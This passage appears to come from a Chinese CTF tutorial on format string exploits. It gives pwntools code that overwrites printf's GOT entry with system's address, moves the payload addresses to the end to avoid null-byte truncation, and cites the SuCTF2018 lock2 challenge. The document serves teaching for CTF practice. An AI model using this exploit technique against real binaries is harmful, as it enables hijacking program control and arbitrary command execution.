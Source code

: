 这里需要注意的是这一段代码

```python
## modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
## get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
sh.recv()
```

fmtstr_payload 直接得到的 payload 会将地址放在前面，而这个会导致 printf 的时候 '\x00' 截断（**关于这一问题，pwntools 目前正在开发 fmt_payload 的加强版，估计快开发出来了。**）。所以我使用了一些技巧将它放在后面了。主要的思想是，将地址放在后面 8 字节对齐的地方，并对 payload 中的偏移进行修改。需要注意的是

```shell
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
```

这一行给出了修改后的地址在格式化字符串中的偏移，之所以是这样在于无论如何修改，由于 '%order$hn' 中 order 多出来的字符都不会大于 8。具体的可以自行推导。

### 题目 

- SuCTF2018 - lock2 （主办方提供了 docker 镜像: suctf/2018-pwn-lock2）
